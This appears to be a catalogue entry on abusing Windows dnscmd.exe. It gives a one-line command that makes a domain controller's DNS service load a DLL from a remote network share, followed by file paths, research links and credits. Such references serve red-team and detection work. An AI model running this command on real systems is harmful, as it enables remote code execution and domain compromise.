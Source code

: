 ## Dnscmd.exe
* Functions: Execute
```

dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
Adds a specially crafted DLL as a plug-in of the DNS Service.
```
   
* Resources:   
  * https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  * https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  * https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  * https://twitter.com/Hexacorn/status/994000792628719618
  * http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
   
* Full path:   
  * c:\windows\system32\Dnscmd.exe
  * c:\windows\sysWOW64\Dnscmd.exe
   
* Notes: This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the refference links for DLL details.
Thanks to Shay Ber - ?,
Dimitrios Slamaris - @dim0x69,
Nikhil SamratAshok,
Mittal - @nikhil_mitt
  
   
